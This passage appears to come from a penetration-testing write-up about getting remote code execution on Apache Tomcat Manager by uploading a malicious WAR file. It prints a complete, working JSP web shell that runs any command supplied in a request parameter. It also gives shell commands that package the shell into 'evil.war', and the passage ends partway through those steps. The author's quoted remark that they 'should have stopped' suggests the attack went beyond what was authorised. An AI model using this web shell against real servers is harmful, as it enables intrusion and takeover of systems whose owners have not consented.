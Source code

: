 
## 5. Phase 3: Achieving RCE via WAR File Upload

"I should have stopped but I knew, I can get a remote code execution by uploading malicious war file."

### 5.1. Understanding WAR File Deployment in Tomcat Manager
The Tomcat Manager allows administrators to deploy WAR (Web Application Archive) files. A WAR file is essentially a ZIP file containing a web application (JSPs, servlets, HTML, etc.). If you can upload a WAR file, you can deploy your own application, including a web shell.

### 5.2. Creating a Malicious WAR File (with a JSP Web Shell)

*   **Action:** Create a simple JSP web shell and package it into a WAR file.
*   **Step 1: Create the JSP Web Shell (`shell.jsp`):**
    ```jsp
    <%-- shell.jsp --%>
    <%@ page import="java.util.*,java.io.*"%>
    <%
        if (request.getParameter("cmd") != null) {
            Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
            }
        }
    %>
    <form method="GET" action="shell.jsp">
        <input type="text" name="cmd" size="50">
        <input type="submit" value="Run Command">
    </form>
    ```
    A simpler one for quick test:
    ```jsp
    <%-- test.jsp --%>
    <HTML><BODY>
    Hello! JSP is working. System time: <%= new java.util.Date() %>
    </BODY></HTML>
    ```
*   **Step 2: Package into a WAR file (`evil.war`):**
    You need the `jar` command (part of the Java Development Kit - JDK).
    ```bash
    # Create a temporary directory structure for the WAR
    mkdir -p evil_app/WEB-INF
    # Put your shell.jsp into the root of evil_app
    echo '<%@ page import="java.util.*,java.io.*"%><% if (request.getParameter("cmd") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); } } %><form method="GET" action="shell.jsp"><input type="text" name="cmd" size="50"><input type="submit" value="Run Command"></form>' > evil_app/shell.jsp
    